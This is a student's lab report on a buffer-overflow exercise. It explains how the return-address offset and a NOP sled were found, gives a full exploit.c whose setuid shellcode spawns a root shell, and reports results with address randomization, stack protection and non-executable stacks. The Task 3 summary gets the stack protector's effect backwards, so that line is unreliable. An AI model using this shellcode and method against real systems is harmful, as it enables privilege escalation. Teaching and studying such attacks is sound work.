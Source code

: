 # Lab 7 - Playing with Buffer Overflow

### Team Members:
1. Adam Robertson, abt5598@psu.edu, 938152440

## Drills
There are five tasks for you to complete. Please give a brief summary of what you did – feel free to include any thoughts / concerns / problems / etc. you encountered during the tasks. Also, include your answers to the questions asked in each task. Save your report as a PDF and submit it to Canvas before the deadline.



## Task 1

### Task 1: Summary

We must turn address randomization off before starting.

 First we need to find where the return address is stored so we can overwrite with the buffer. We find that it is at 0xbfffed5c (pic 1). We can see that the buffer is at 0xbfffed44 which is 0x18 from the return address. So we write at the start byte located 0x18 from buffer.

Next, we determine where we want to jump. Since we don't know what kind of enviroment variables might be declared that would shift the virtual address space, we can't hardcode to the exact location of our shellcode. However, we can guess that the enviromnent variables will take up similar amounts of space between sessions, so we can use a NOP sled to slide into our shell code. As long as we jump to some NOP instruction, we will be able to run our shell code.

So for our badfile, we write our shell code at the end of the 517 byte buffer. This gives us a NOP sled size of 463 bytes. Halfway would be 232 bytes. So we want to try and jump to &buffer + 0x18 + 232. We store this address in the return address. (Which is 0x18 from buffer) This should give us a good chance of landing in the NOP zone given that the enviroment variables take up a similar memory footprint.
>

### Task 1: Question Answers

> 1. Include the screenshots of main steps.
> 
> Figuring out addresses:
> ![](addresses.png)
>
> Resulting exploit:
> ![](exploitCode.png)
>
> Task 1:
> 
> ![](task1Fin.png)
> 
> 2. Include the completed `exploit.c`.
> ``` c
>/* exploit.c */
>/* A program that creates a file containing code for >launching shell*/
>#include <stdlib.h>
>#include <stdio.h>
>#include <string.h>
>char shellcode[]=
>   // setuid(0)
>   "\x31\xdb" /* xor %ebx,%ebx */
>   "\x6a\x17" /* push $0x17 */
>   "\x58" /* pop %eax */
>   "\xcd\x80" /* int $0x80 */
>   // execve("/bin//sh", ...)
>   "\x31\xc0" /* xorl %eax,%eax */
>   "\x50" /* pushl %eax */
>   "\x68""//sh" /* pushl $0x68732f2f */
>   "\x68""/bin" /* pushl $0x6e69622f */
>   "\x89\xe3" /* movl %esp,%ebx */
>   "\x50" /* pushl %eax */
>   "\x53" /* pushl %ebx */
>   "\x89\xe1" /* movl %esp,%ecx */
>   "\x99" /* cdql */
>   "\xb0\x0b" /* movb $0x0b,%al */
>   "\xcd\x80" /* int $0x80 */
>   ;
>void main(int argc, char **argv)
>{
>   char buffer[517];
>   FILE *badfile;
>   /* Initialize buffer with 0x90 (NOP instruction) */
>   memset(&buffer, 0x90, 517);
>   
>   /* You need to fill the buffer with appropriate contents > here */;
>   int progAddress = 0xbfffed5c + ((517-35) / 2);
>   memcpy(buffer + 0x18, &progAddress, 4);
>   memcpy(buffer + (517 - 33), shellcode, 32);
>   
>   /* Save the contents to the file "badfile" */
>   badfile = fopen("./badfile", "w");
>   fwrite(buffer, 517, 1, badfile);
>   fclose(badfile);
>}
> ```




## Task 2

### Task 2: Summary

Next we turn address randomization back on to see if the shellcode still works.

### Task 2: Question Answers

> 1. Include the screenshots.
> 
> Task2:
> 
> ![](task2Fin.png)
> 
> 2. Please describe your observation and explanation.
> 
> When we turn on randomization, the chances of jumping into our NOP sled are much lower. So we run the program in a loop until we land in the NOP zone. Whenever it fails, it seg faults and then tries again.


## Task 3

### Task 3: Summary

By disabling the stack protector, the operating system should be able to tell when we overwrite the return address.

### Task 3: Question Answers

> 1. Include the screenshots.
>
> Task3:
> 
> ![](task3Fin.png)
>
> 2. Please report your observation.
>
> For task 3 and 4, I assume they are not supposed to work, but even after deleting my previous executable and restarting, I continue to get a shell.



## Task 4

### Task 4: Summary

We can disable the ability to execute code in the stack. This means the shell code we overflowed our buffer with will not run.

### Task 4: Question Answers

> 1. Include the screenshots.
> Task4:
> 
> ![](task4Fin.png)
> 
> 2. Please describe your observation and explanation.
> 
> For task 3 and 4, I assume they are not supposed to work, but even after deleting my previous executable and restarting, I continue to get a shell.